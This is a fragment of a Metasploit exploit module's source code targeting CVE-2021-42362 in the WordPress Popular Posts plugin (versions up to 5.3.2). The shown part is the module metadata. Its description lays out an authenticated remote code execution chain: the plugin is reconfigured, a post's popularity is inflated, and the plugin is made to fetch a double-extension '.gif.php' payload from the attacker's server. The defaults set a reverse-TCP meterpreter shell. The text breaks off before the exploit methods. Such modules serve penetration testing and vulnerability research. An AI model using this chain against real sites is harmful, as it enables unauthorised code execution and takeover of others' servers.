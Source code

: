 ### This module requires Metasploit: https://metasploit.com/download# Current source: https://github.com/rapid7/metasploit-framework##class MetasploitModule &lt; Msf::Exploit::Remote  Rank = NormalRanking  prepend Msf::Exploit::Remote::AutoCheck  include Msf::Exploit::FileDropper  include Msf::Exploit::Remote::HttpClient  include Msf::Exploit::Remote::HttpServer  include Msf::Exploit::Remote::HTTP::Wordpress  def initialize(info = {})    super(      update_info(        info,        'Name' => 'Wordpress Popular Posts Authenticated RCE',        'Description' => %q{          This exploit requires Metasploit to have a FQDN and the ability to run a payload web server on port 80, 443, or 8080.          The FQDN must also not resolve to a reserved address (192/172/127/10).  The server must also respond to a HEAD request          for the payload, prior to getting a GET request.          This exploit leverages an authenticated improper input validation in Wordpress plugin Popular Posts &lt;= 5.3.2.          The exploit chain is rather complicated.  Authentication is required and 'gd' for PHP is required on the server.          Then the Popular Post plugin is reconfigured to allow for an arbitrary URL for the post image in the widget.          A post is made, then requests are sent to the post to make it more popular than the previous #1 by 5. Once          the post hits the top 5, and after a 60sec (we wait 90) server cache refresh, the homepage widget is loaded          which triggers the plugin to download the payload from our server. Our payload has a 'GIF' header, and a          double extension ('.gif.php') allowing for arbitrary PHP code to be executed.        },        'License' => MSF_LICENSE,        'Author' => [          'h00die', # msf module          'Simone Cristofaro', # edb          'Jerome Bruandet' # original analysis        ],        'References' => [          [ 'EDB', '50129' ],          [ 'URL', 'https://blog.nintechnet.com/improper-input-validation-fixed-in-wordpress-popular-posts-plugin/' ],          [ 'WPVDB', 'bd4f157c-a3d7-4535-a587-0102ba4e3009' ],          [ 'URL', 'https://plugins.trac.wordpress.org/changeset/2542638' ],          [ 'URL', 'https://github.com/cabrerahector/wordpress-popular-posts/commit/d9b274cf6812eb446e4103cb18f69897ec6fe601' ],          [ 'CVE', '2021-42362' ]        ],        'Platform' => ['php'],        'Stance' => Msf::Exploit::Stance::Aggressive,        'Privileged' => false,        'Arch' => ARCH_PHP,        'Targets' => [          [ 'Automatic Target', {}]        ],        'DisclosureDate' => '2021-06-11',        'DefaultTarget' => 0,        'DefaultOptions' => {          'PAYLOAD' => 'php/meterpreter/reverse_tcp',          'WfsDelay' => 3000 # 50 minutes, other visitors to the site may trigger        },        'Notes' => {          'Stability' => [ CRASH_SAFE ],          'SideEffects' => [ ARTIFACTS_ON_DISK, IOC_IN_LOGS, CONFIG_CHANGES ],          'Reliability' => [ REPEATABLE_SESSION ]        }      )    )    register_options